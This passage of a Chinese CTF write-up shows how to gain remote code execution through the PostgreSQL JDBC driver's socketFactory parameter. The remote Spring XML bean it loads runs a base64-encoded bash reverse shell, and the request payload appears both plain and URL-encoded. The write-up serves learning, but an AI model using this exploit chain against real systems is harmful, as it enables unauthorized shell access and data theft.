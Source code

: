 ![image-20231101212444166](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202311021208439.png)

![image-20231101212451632](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202311021208250.png)

flag 在环境变量里面

![image-20231101212504693](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202311021208321.png)

当然也可以利用 postgresql 驱动, 这个更简单一些

根据参考文章, 起一个 http 服务器, 构造 xml

```xml
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg >
            <list>
                <value>bash</value>
                <value>-c</value>
                <value>{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC9ob3N0LmRvY2tlci5pbnRlcm5hbC80NDQ0IDA+JjE=}|{base64,-d}|{bash,-i}</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```

payload

```
/testConnection?driver=org.postgresql.Driver&url=jdbc:postgresql://127.0.0.1:5432/test?socketFactory=org.springframework.context.support.ClassPathXmlApplicationContext&socketFactoryArg=http://host.docker.internal:8000/poc.xml&username=123&password=123
```

url 编码

```
/testConnection?driver=org.postgresql.Driver&url=%6a%64%62%63%3a%70%6f%73%74%67%72%65%73%71%6c%3a%2f%2f%31%32%37%2e%30%2e%30%2e%31%3a%35%34%33%32%2f%74%65%73%74%3f%73%6f%63%6b%65%74%46%61%63%74%6f%72%79%3d%6f%72%67%2e%73%70%72%69%6e%67%66%72%61%6d%65%77%6f%72%6b%2e%63%6f%6e%74%65%78%74%2e%73%75%70%70%6f%72%74%2e%43%6c%61%73%73%50%61%74%68%58%6d%6c%41%70%70%6c%69%63%61%74%69%6f%6e%43%6f%6e%74%65%78%74%26%73%6f%63%6b%65%74%46%61%63%74%6f%72%79%41%72%67%3d%68%74%74%70%3a%2f%2f%68%6f%73%74%2e%64%6f%63%6b%65%72%2e%69%6e%74%65%72%6e%61%6c%3a%38%30%30%30%2f%70%6f%63%2e%78%6d%6c&username=123&password=123
```

最终也是一样的效果